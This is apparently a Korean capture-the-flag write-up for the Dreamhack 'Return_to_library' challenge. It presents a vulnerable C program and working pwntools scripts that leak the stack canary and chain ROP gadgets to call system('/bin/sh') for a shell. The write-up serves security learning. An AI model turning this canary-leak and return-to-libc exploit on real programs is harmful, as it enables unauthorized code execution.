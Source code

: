 # [Dreamhack] Return_to_library 풀이

Created: 2022년 12월 2일 오후 8:10
Tags: Pwn

---

## 문제설명

[https://dreamhack.io/wargame/challenges/353/](https://dreamhack.io/wargame/challenges/353/)

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL.png)

카나리 보호기법과 NX 보호기법이 적용되어있는걸 볼 수 있습니다.

```c
#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

첫 입력에서 canary값을 Leak하고 두번째 입력에서 bof를 발생시켜서 전역으로 선언된 /bin/sh을 system함수로 실행시키면 될거같습니다.

## Canary Leak

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL1.png)

메인함수에서 첫번째 read 함수전에 rbp-0x40의 주소를 가져오는것을 보아 buf는 ebp에서 0x40만큼 떨어져있는 것을 알 수 있습니다. 

그럼 0x40(10진수:64)에서 카나리값 크기인 8만큼에서 NULL을 뺀크기인 7을 뺀만큼 입력해주면 카나리값이 출력 될 것 입니다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 13818)
e = ELF("./rtl")

#-----canary_leak------
def slog(name, addr): return success(": ".join([name, hex(addr)]))

payload = b'A' * 57
p.sendafter(b'Buf: ', payload) 
p.recvuntil(payload) #내가 입력한 내용을 날려주는 코드
canary = u64(b'\00' + p.recv(7)) #NULL을 포함해서 카나리값을 받아줍니다.
slog("Canary",canary)
```

위와같이 코드를 짰습니다.

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL2.png)

카나리값이 잘 출력됩니다.

이젠 카나리 값을 구했으니 exploit코드를 마저 짜보겠습니다.

> NX 보호기법때문에 버퍼에 쉘코드를 주입해서 실행시키는건 불가능하기 때문에 반환주소를 조작해야합니다. NX보호기법이 적용된 프로세스에 실행 권한이 있는 메모리 영역은 일반적으로 바이너리의 코드 영역과 바이너리가 참조하는 라이브러리의 코드 영역입니다.
> 

 C코드에 `const char* binsh = "/bin/sh";` 코드때문에 프로세스에 “/bin/sh”이라는 문자열이생기고

`system("echo system@plt");` 코드 때문에 PLT에 system함수를 추가하게됩니다. 이걸 잘 조합하면 이제 “/bin/sh”문자열을 system함수로 실행시키면 쉘을 딸 수 있다.
이제 우리가 알아야하는 정보는 

- system함수의 plt주소
- “/bin/sh”의 주소
- pop rdi ; ret 가젯의 주소
- ret가젯의 주소(이건 movaps issue에대해 공부해보면 됩니다.)

---

### system 함수의 plt주소

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL3.png)

systemplt = 0x4005d0

### “/bin/sh”의 주소

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL4.png)

“/bin/sh” = 0x400874

### pop rdi ; ret 가젯의 주소

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL5.png)

pop_rdi_ret = 0x0000000000400853

### nop

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL6.png)

nop_ret = 0x0000000000400285

---

이제 모든정보를 얻었으니 코드를 짜보겠습니다

```python
from pwn import *

p = process("./rtl")

#-----canary_leak------
def slog(name, addr): return success(": ".join([name, hex(addr)]))

payload = b'A' * 57
p.sendafter(b'Buf: ', payload)
p.recvuntil(payload)
canary = u64(b'\00' + p.recv(7))
slog("Canary",canary)

#-----exploit------
sys_plt = 0x4005d0
nop = 0x0000000000400285
pop_rdi_ret = 0x0000000000400853
shell = 0x400874

pay = b"A" * 56 + p64(canary) + b"B" * 8
pay += p64(nop)
pay += p64(pop_rdi_ret) #반환주소를 가젯주소로 덮어줍니다.
pay += p64(shell) #이때 /bin/sh의 문자열이 rdi에 들어가게됩니다. 
pay += p64(sys_plt) #이곳에서 rdi ; ret 의 ret이 systemPlt를 가르켜서 system함수가 실행된다.
p.sendafter(b'Buf: ', pay)
p.interactive()
```

![Untitled](/5%EC%A3%BC%EC%B0%A8/img/RTL7.png)

쉘이 따졌습니다.